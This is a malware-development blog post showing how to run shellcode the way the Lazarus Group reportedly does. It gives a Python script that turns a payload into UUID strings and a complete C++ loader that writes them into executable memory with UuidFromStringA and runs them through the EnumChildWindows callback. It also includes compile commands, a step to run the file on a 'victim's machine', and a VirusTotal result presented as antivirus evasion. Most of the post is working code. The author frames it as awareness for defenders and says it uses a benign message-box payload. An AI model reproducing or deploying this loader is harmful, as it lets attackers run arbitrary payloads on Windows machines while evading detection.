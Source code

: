 ```yaml
---
title:  "Malware development tricks. Run shellcode like a Lazarus Group. C++ example."
date:   2022-07-21 03:00:00 +0300
header:
  teaser: "/assets/images/63/2022-07-22_09-57.png"
categories:
  - malware
tags:
  - injection
  - windows
  - malware
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![injection](/assets/images/63/2022-07-22_09-57.png){:class="img-responsive"}    

This post is the result of self-researching interesting trick: run payload via `UuidFromStringA` and for example `EnumChildWindows`.    

### UuidFromStringA

This function converts a string to UUID:

```cpp
RPC_STATUS UuidFromStringA(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```
Without using standard functions like `memcpy` or `WriteProcessMemory`, this function can be used to decode data as well as write it to memory.     

The shellcode execution technique is comprised of the subsequent steps:

- Allocate memory via `VirtualAlloc`    
- Use `UuidFromStringA` to convert UUID strings their binary format and store in memory    
- Use `EnumChildWindows` (or `EnumDesktopsA` or another candidate) to execute the payload previously loaded into memory      

### practical example

Let's go to look at a practical example. The trick is pretty simple, similar to [previous](/tutorial/2022/06/27/malware-injection-20.html) tricks, but with some changes specific for Lazarus Group.     

First of all, we need script to convert our desired payload to UUID valid strings. Something like this (`payload_uuid.py`):

```python
#!usr/bin/python3

from uuid import UUID
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-p','--payload', required = True, help = "payload: binary file")
args = vars(parser.parse_args())
pbin = args['payload']

with open(pbin, "rb") as f:
    # read in 16 bytes from our input payload
    chunk = f.read(16)
    while chunk:
        # if the chunk is less than 16 bytes then we pad the difference (x90)
        if len(chunk) < 16:
            padding = 16 - len(chunk)
            chunk = chunk + (b"\x90" * padding)
        print(UUID(bytes_le=chunk))
        chunk = f.read(16)
```        

As usually, I will use my `meow-meow` messagebox payload: `meow.bin`.

Run:

```bash
python3 payload_uuid.py -p meow.bin
```
![injection](/assets/images/63/2022-07-22_10-46.png){:class="img-responsive"}    

Since we already have our payload in UUID format, we are able to construct our proof-of-concept code to test the following:     

```cpp
#include <windows.h>
#include <rpc.h>
#include <iostream>

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] = {
  "e48148fc-fff0-ffff-e8d0-000000415141",
  "56515250-3148-65d2-488b-52603e488b52",
  "8b483e18-2052-483e-8b72-503e480fb74a",
  "c9314d4a-3148-acc0-3c61-7c022c2041c1",
  "01410dc9-e2c1-52ed-4151-3e488b52203e",
  "483c428b-d001-8b3e-8088-0000004885c0",
  "01486f74-50d0-8b3e-4818-3e448b402049",
  "5ce3d001-ff48-3ec9-418b-34884801d64d",
  "3148c931-acc0-c141-c90d-4101c138e075",
  "034c3ef1-244c-4508-39d1-75d6583e448b",
  "01492440-66d0-413e-8b0c-483e448b401c",
  "3ed00149-8b41-8804-4801-d0415841585e",
  "58415a59-5941-5a41-4883-ec204152ffe0",
  "5a594158-483e-128b-e949-ffffff5d49c7",
  "000000c1-3e00-8d48-95fe-0000003e4c8d",
  "00010985-4800-c931-41ba-45835607ffd5",
  "41c93148-f0ba-a2b5-56ff-d54d656f772d",
  "776f656d-0021-5e3d-2e2e-5e3d00909090"
};

int main() {
  int elems = sizeof(uuids) / sizeof(uuids[0]);
  VOID* mem = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000, PAGE_EXECUTE_READWRITE);
  DWORD_PTR hptr = (DWORD_PTR)mem;
  for (int i = 0; i < elems; i++) {
    // printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
    // printf("%s\n", *(uuids+i));
    RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
    RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
    if (status != RPC_S_OK) {
      printf("[-] UUID convert error\n");
      CloseHandle(mem);
      return -1;
    }
     hptr += 16;
  }

  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  // EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  CloseHandle(mem);
  return 0;
}
```

Pay attention to the function `UuidFromStringA`. As I wrote earlier, invoking this API with a memory pointer instead of a UUID pointer will result in the binary representation of the given UUID being stored in memory.     

By chaining many API requests and giving properly designed UUIDs, it is possible to load the necessary content (payload) into the chosen memory region.   

And then, as a pointer to the callback function in `EnumChildWindows` we specify this memory region:   

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

or another function `EnumDesktopsA`:    

```cpp
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

### demo

Let's go to see everything in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lrpcrt4
```

![injection](/assets/images/63/2022-07-22_10-56.png){:class="img-responsive"}    

and run in our victim's machine:    

```powershell
.\hack.exe
```

![injection](/assets/images/63/2022-07-22_10-58.png){:class="img-responsive"}    

To make sure that our payload was really launched, you can slightly change a piece of code:

```cpp
printf("[*] Hexdump: ");
for (int i = 0; i < elems*16; i++) {
  printf("%02X ", ((unsigned char*)mem)[i]);
}
```

Then compile again:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lrpcrt4
```

![injection](/assets/images/63/2022-07-22_11-07.png){:class="img-responsive"}    

and run again:   

```powershell
.\hack.exe
```

![injection](/assets/images/63/2022-07-22_11-09.png){:class="img-responsive"}    

As you can see, everything is work perfectly :)    

Let's go to upload `hack.exe` to VirusTotal:    

![injection](/assets/images/63/2022-07-22_14-59.png){:class="img-responsive"}    

**So, 6 of 68 AV engines detect our file as malicious.**    

[https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection](https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection)    

There is a caveat. Lazarus Group uses functions `HeapCreate` and `HeapAlloc` instead:    

```cpp
HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
void* mem = HeapAlloc(hc, 0, 0x100000);
```

`HeapAlloc` is a frequently used API call for allocating heap memory.    
This API, as far as I can tell, allows you to allocate specified amounts of memory on the heap, as opposed to the memory blocks obtained using the `VirtualAlloc` API.
However, according to the documentation, `HeapAlloc` can still call `VirtualAlloc` if necessary.    

It also has the advantage that this API is not so suspicious.    

Also Lazarus Group uses function `EnumSystemLocalesA` for execute payload.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[nccgroup - RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)
[Lazarus Group](https://attack.mitre.org/groups/G0032/)    
[source code in github](https://github.com/cocomelonc/2022-07-21-malware-tricks-22)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
